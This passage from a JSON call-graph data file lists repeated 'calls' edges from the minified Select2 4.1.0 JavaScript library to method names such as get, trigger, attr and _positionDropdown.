"source": "static/js/select2-4.1.0.min.js", "target": "processResults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_normalizeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_removeOldTags"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "createTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "addOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "insertTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "tokenizer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_normalizeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_removeOldTags"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "addOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_checkIfMaximumSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_checkIfMaximumSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "current"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prepend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "handleSearch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "showSearch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "normalizePlaceholder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removePlaceholder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "createLoadingMore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "showLoadingMore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "loadMoreIfNeeded"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "loadMore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_showDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_attachPositioningHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_bindContainerResultHandlers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_hideDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_detachPositioningHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_positionDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resizeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_positionDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resizeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_positionDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resizeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_positionDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resizeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_positionDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resizeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "parents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_positionDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resizeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "parents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "height"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offsetParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "appendTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_positionDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resizeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_handleSelectOnClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getHighlightedResults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_selectTriggered"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_selectTriggered"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "copyNonInternalCssClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resolveLanguage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_processTranslations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resolveLanguage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resolveLanguage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resolveLanguage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "loadPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "loadPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isPlainObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "camelCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_convertData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "fromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "applyFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isPlainObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 